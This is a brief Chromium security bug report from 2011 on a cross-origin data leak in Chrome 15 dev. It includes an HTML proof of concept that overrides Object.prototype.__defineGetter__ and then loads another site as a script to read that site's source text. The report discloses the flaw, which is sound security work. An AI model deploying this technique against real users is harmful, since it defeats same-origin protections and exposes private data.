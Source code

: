 # Arbitrary cross-origin bypass using `__defineGetter__` prototype override

#### Aug 18 2011

### VULNERABILITY DETAILS

You can access cross-origin text by hooking into `__defineGetter__` and using `SourceLocation` object.

### REPRODUCTION CASE
```html
<html>

<head>

  <script type="text/javascript">
    Object.prototype.
    `__defineGetter__` ("line", function() {
      alert(this.script.sourceSlice().sourceText());
    });
  </script>

  <script src="http://google.com"></script>

</head>

<body></body>

</html>
```
#### VERSION

Chrome Version: [15.0.854.0] + [dev]
Operating System: [Win, 7, Service pack 1]

Link: https://bugs.chromium.org/p/chromium/issues/detail?id=93416

